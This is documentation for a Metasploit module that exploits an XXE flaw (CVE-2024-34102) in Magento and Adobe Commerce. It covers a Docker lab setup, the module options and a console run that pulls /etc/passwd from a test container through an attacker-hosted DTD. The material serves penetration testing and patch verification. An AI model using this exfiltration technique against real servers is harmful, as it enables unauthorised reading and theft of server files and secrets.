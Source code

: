 ## Vulnerable Application

### Description

An unauthenticated user can read arbritraty file from Magento Community edition version 2.4.0 to 2.4.3.
The vulnerability is due to the lack of input validation in the XML file. An attacker can exploit this
vulnerability by sending a specially crafted XML file to the target server. The attacker can read any file on the server.

On June 27, 2024, Adobe released a software update that addressed this vulnerability (CVE-2024-34102).

The following products are affected:

- Adobe Commerce: versions before:      2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8; 2.4.3-ext-7 ; 2.4.2-ext-7
- Magento Open Source: versions before: 2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8
- Adobe Commerce Webhooks Plugin: versions 1.2.0 to 1.4.0

### Exploitation

This module exploits the XXE vulnerability in Magento by following these steps:

- Creating a DTD File: This file includes entities that will read and encode `FILE`, then send it to your endpoint.

- Host the DTD File: Serve the dtd.xml file, accessible via HTTP `SRVHOST` on port `SRVPORT`.

- Craft the HTTP Request: Craft the XML payload which will include the DTD file hosted on your server.

- Execute a HTTP Request: Send the crafted XML payload to the target server.

- Capture the Exfiltrated Data: The exfiltrated data will be sent back to the attacker in a HTTP GET request and them saved in the loot.



### Setup

Create a `docker-compose.yml` file as below:

```yml
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  mariadb_data:
    driver: local
  magento_data:
    driver: local
  elasticsearch_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```


## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Magento (Default: `/`).

### SRVHOST (required)

The local IP address to listen on. This must be a routable IP address on the local machine (0.0.0.0 is invalid). 

### SRVPORT (required)

The local port to listen on.

## Scenarios

### Docker container running Magento Community edition version 2.4

```
Module options (exploit/multi/http/magento_xxe_cve_2024_34102):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILE       /etc/passwd      yes       The file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    192.168.128.1    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST      localhost        no        HTTP server virtual host
```

```   
msf exploit(multi/http/magento_xxe_cve_2024_34102) > 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://192.168.128.1:8080/
[*] Sending XXE request
[*] Received request for DTD file from 192.168.144.4
[+] Received file /etc/passwd content
[+] File saved in: /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

msf exploit(multi/http/magento_xxe_cve_2024_34102) > cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt
[*] exec: cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
msf exploit(multi/http/magento_xxe_cve_2024_34102) > 
```
